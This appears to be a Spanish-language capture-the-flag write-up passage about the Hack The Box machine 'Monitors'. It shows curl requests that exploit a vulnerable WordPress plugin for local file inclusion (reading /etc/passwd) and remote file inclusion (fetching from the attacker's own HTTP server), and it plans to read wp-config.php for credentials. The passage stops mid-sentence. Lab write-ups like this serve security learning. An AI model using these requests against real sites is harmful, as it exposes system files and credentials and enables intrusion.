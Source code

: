 📁 ***`file_get_contents()`: This is going to just display the text within the file by reading the contents as a string, and will not interpret PHP code for execution. If the `LFI` is using this method, <u>you can only enumerate files on the filesystem</u>.*** [Exploiting PHP Based LFI](https://infinitelogins.com/2020/11/21/exploiting-php-based-lfi/)

Vemos la función vulnerable y como se puede explotar, pues validemos si tenemos la versión del plugin vulnerable:

```bash
❱ curl -i http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php
HTTP/1.1 200 OK
Date: Tue, 06 Jul 2021 19:21:52 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Pues el archivo existe, veamos la explotación:

```html
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/passwd
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341page80_plugin_spritz_LFI_etcPasswd.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Perfecto, tenemos un [**LFI** (inclusión de archivos locales)](https://www.welivesecurity.com/la-es/2015/01/12/como-funciona-vulnerabilidad-local-file-inclusion/), por lo que podemos ver objetos del sistema.

> Además vemos un usuario llamado **marcus**, guardemoslo por si algo.

El **RFI** también nos da éxito, para validarlo simplemente debemos levantar un servidor web:

```bash
❱ python3 -m http.server
```

Y ejecutar mediante el plugin:

```bash
❱ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http://10.10.14.146:8000/hola
```

En nuestro servidor recibimos la petición hacia el archivo `hola` (: Así que contamos con un **LFI** y un **RFI**.

...

Teniendo en mente que estamos sobre un sitio mantenido por **WordPress**, podemos buscar que archivos maneja el **CMS** y así usar el **LFI** para ver su contenido:

* [Beginner’s Guide to Understanding WordPress File Structure & Database](https://www.malcare.com/blog/beginners-guide-to-understanding-the-structure-of-a-wordpress-site/).

Hay varios, pero debemos centrarnos en encontrar el archivo `wp-config.php` que por lo general contiene las credenciales de la base de datos y nos podrían servir para hacer reutilización de contraseñas o descubrir nuevos usuarios...

Jugando con el **LFI** moviéndonos entre carpetas, logramos encontrarlo:
